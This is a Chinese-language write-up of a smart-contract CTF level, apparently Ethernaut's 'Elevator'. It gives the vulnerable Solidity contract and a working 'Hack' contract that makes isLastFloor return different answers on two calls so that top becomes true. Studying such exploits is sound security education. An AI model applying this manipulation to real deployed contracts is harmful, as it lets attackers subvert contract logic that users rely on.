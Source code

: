 # Elevator
## 題目
<img width="481" alt="截圖 2024-09-09 下午11 24 43" src="https://github.com/user-attachments/assets/c4d62247-c418-4072-a9e3-f7461d4d4609">

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);  // 在設置樓層後再次檢查是否為頂樓
        }
    }
}
```
### 觀察
1. `Elevator` 合約依賴外部的 `Building` 合約來決定當前的樓層是否為最後一層（頂樓），通過 `isLastFloor` 函數來判斷。
2. 在 `goTo` 函數中，`Elevator` 會根據 `isLastFloor` 函數的回傳值來設置樓層和頂樓狀態。如果我們可以操控 `isLastFloor` 的回傳值，我們可以欺騙合約，讓它認為我們已經到達了頂樓。

### 攻擊
我們可以創建一個合約，然後這個合約會：
1. 實現 `Building` 接口中的 `isLastFloor` 函數。
2. 在第一次呼叫 `isLastFloor` 時回傳 `false`，允許 `Elevator` 更新樓層；第二次呼叫時則回傳 `true`，讓合約設置 `top` 為 `true`。

## `Hack` 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
    function top() external view returns (bool);
}

contract Hack {
    IElevator private immutable target;  // 目標 Elevator 合約的引用
    uint256 private count;  // 計數器，用來操控 isLastFloor 的回傳值

    constructor(address _target) {
        target = IElevator(_target);
    }

    // 攻擊函數
    function pwn() external {
        target.goTo(1);  // 呼叫目標合約，將電梯移動到第一層
        require(target.top(), "not top");  // 確認是否已經到達頂樓
    }

    // 欺騙 Elevator 合約的邏輯
    function isLastFloor(uint256) external returns (bool) {
        count++;
        return count > 1;  // 第一次回傳 false，第二次回傳 true
    }
}
```

### 解說：
1. **攻擊設置**：`Hack` 合約部署時，傳入目標 `Elevator` 合約的地址。
2. **觸發攻擊**：呼叫 `pwn()` 函數，這個函數會觸發目標合約的 `goTo()` 函數，將樓層設置為 1。
3. **欺騙 `Elevator`**：當 `goTo()` 呼叫 `isLastFloor()` 時，第一次回傳 `false` 讓樓層更新，第二次回傳 `true` 來設置 `top` 狀態為 `true`。
4. **驗證成功**：`pwn()` 函數中的 `require()` 驗證目標合約的 `top` 狀態是否為 `true`，確認攻擊成功。

> `goTo()` 函數中會呼叫兩次 `isLastFloor()`。我們的策略是讓第一次呼叫回傳 `false` 來更新樓層，然後讓第二次呼叫回傳 `true` 來設置 `top` 為 `true`，從而達到欺騙合約的目的。
